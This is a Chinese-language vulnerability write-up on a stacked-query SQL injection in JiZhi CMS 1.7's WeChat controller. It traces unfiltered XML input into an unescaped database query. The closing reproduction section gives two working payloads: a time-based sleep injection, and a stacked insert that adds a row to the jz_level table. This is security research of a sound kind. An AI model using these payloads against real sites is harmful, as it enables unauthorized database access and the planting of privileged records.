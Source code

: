 # 极致CMS1.7 另一处前台SQL注入

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 0x00 漏洞描述

复现了 `CNVD-2021-26000` 之后，搜索了一下极致 `cms` 相关漏洞，发现 1.7 版本的漏洞还真不少，并且还有另一个前台`SQL` 注入，并且支持堆叠查询。

## 0x01 漏洞影响

极致CMS1.7

## 0x02 漏洞分析

关于这个 `cms` 数据库方面的一些基础已经在之前发的文章中讲了一些了，数据库操作基本上没有任何防护，但是大部分的输入都是有同一套比较完善的过滤，因此我们需要找到没有过滤的输入，并且会代入数据库操作的地方

这里有一处 `Home/c/WechatController.php` 的 `responseMsg` 方法

```php
$postStr = file_get_contents('php://input');
if (!empty($postStr)){
    libxml_disable_entity_loader(true);
    $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
    $this->postObj = $postObj;
    $fromUsername = $postObj->FromUserName;
    $toUsername = $postObj->ToUserName;
    $keyword = trim($postObj->Content);
    $time = time();
    $textTpl = "<xml>
                    <ToUserName><![CDATA[%s]]></ToUserName>
                    <FromUserName><![CDATA[%s]]></FromUserName>
                    <CreateTime>%s</CreateTime>
                    <MsgType><![CDATA[%s]]></MsgType>
                    <Content><![CDATA[%s]]></Content>
                    <FuncFlag>0</FuncFlag>
                    </xml>";
    if($postObj->MsgType=='event'){
        switch ($postObj->Event){
            case 'CLICK':
            break;
            case 'subscribe':
            $openid = $fromUsername;
            $islive = M('member')->find(array('openid'=>$openid));
```

首先是

```php
$postStr = file_get_contents('php://input');
```

这里是直接获取数据流，赋值给 `$postStr` ，因此这里就没有其他过滤

然后使用函数解析 `simplexml_load_string` ，可以用来解析 `xml` 字符串，要不是上面那一句，这里就有 `xxe` 漏洞咯

接下来是一串赋值，最后进入一个 `if` 语句，只有满足 `$postObj->MsgType=='event'` ，才会继续向下执行，而这个值是我们可控的，不成问题，设置

```xml
<MsgType><![CDATA[event]]></MsgType>
```

然后是 `switch` 语句，比较简单，选择使得 `$postObj->Event ==  'subscribe'`

```xml
<Event><![CDATA[subscribe]]></Event>
```

然后会执行

```php
$openid = $fromUsername;
$islive = M('member')->find(array('openid'=>$openid));
```

这里会先赋值，然后进入数据库操作，而这个 `$fromUsername` 在上面有定义

```php
$fromUsername = $postObj->FromUserName;
```

这也是可控的，可以这样

```xml
<FromUserName><![CDATA[1]]></FromUserName>
```

最后进入到了 `FrPHP/lib/Model.php` 的 `find` 方法

```php
public function find($where=null,$order=null,$fields=null,$limit=1)
{
   if( $record = $this->findAll($where, $order, $fields, 1) ){
        return array_pop($record);
    }else{
        return FALSE;
    }
}
```

这实际上是调用 `$this->findAll` ，只是限制了查询数量为 1，我们看 `$this->findAll`

```php
public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
{
    $where = '';
    if(is_array($conditions)){
        $join = array();
        foreach( $conditions as $key => $value ){
            $value =  '\''.$value.'\'';
            $join[] = "{$key} = {$value}";
        }
        $where = "WHERE ".join(" AND ",$join);
    }else{
        if(null != $conditions)$where = "WHERE ".$conditions;
    }
  if(is_array($order)){
        $where .= ' ORDER BY ';
        $where .= implode(',', $order);
  }else{
     if($order!=null)$where .= " ORDER BY  ".$order;
  }
    if(!empty($limit))$where .= " LIMIT {$limit}";
    $fields = empty($fields) ? "*" : $fields;
    $table = self::$table;
    $sql = "SELECT {$fields} FROM {$table} {$where}";
    return $this->db->getArray($sql);
}
```

这里的 `$conditions` 就是传进来的 `array('openid'=>$openid)` ，到最后会拼接字符串形成最后的 `sql` 语句

```sql
SELECT * FROM jz_member WHERE openid = '1' LIMIT 1
```

这里的 1 就是传进来的值，这个值没有经过任何过滤，因此我们可以随意拼接，最后传入 `$this->db->getArray($sql)`

```php
public function getArray($sql){
    if(!$result = $this->query($sql))return array();
    if(!$this->Statement->rowCount())return array();
    $rows = array();
    while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
    $this->Statement=null;
    array_pop($rows);
    return $rows;
}
```

然后就会执行 `$this->query($sql)`

```php
public function query($sql){
    $this->arrSql[] = $sql;
    $this->Statement = $this->pdo->query($sql);
    if ($this->Statement) {
        return $this;
    }else{
        $msg = $this->pdo->errorInfo();
        if($msg[2]){
            Error_msg('数据库错误：' . $msg[2] . end($this->arrSql));
        }
    }
}
```

这里使用了一个 `pdo` 对象（ `pdo` 数据对象扩展是 `php` 访问数据库的一个轻量级接口，`PDO` 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。），可以使用堆叠查询

执行后返回结果集，之后处理就不管了，至少执行 `sql` 之前没有任何处理，妥妥的 `sql` 注入，而且可以堆叠查询

## 0x03 漏洞复现

![](https://gitee.com/d5shenwu/nopic/raw/master/img/20210707234408.png)

放两个 `payload`

```
1';select sleep(5)-- 
```

```
1';insert into jz_level values(999,'fff','a877cec7a6ffd70dfd313411d6196a40','1','1','1','1','1','1')#
```

## 0x04 链接

环境与 `poc` 都可以在如下链接获取

### GitHub

https://github.com/d5shenwu/vulPOC

